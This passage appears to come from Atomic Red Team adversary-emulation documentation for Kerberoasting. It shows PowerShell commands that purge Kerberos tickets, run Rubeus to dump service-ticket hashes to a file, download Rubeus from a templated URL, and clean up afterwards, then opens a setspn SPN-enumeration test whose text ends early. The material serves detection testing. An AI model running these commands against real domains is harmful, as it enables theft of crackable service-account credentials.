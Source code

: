 #### Attack Commands: Run with `powershell`!

```powershell
klist purge
cmd.exe /c "#{local_folder}\#{local_executable}" kerberoast #{flags} /outfile:"#{local_folder}\#{out_file}"
```

#### Cleanup Commands:

```powershell
Remove-Item "#{local_folder}\#{out_file}" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

##### Description: Rubeus must exist

##### Check Prereq Commands:

```powershell
if(Test-Path -Path "#{local_folder}\#{local_executable}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile "#{local_folder}\#{local_executable}"
```

<br/>
<br/>

## Atomic Test #3 - Extract all accounts in use as SPN using setspn

The following test will utilize setspn to extract the Service Principal Names. This behavior is typically used during a kerberos or silver ticket attack.
A successful execution will output all the SPNs for the related domain.

**Supported Platforms:** Windows
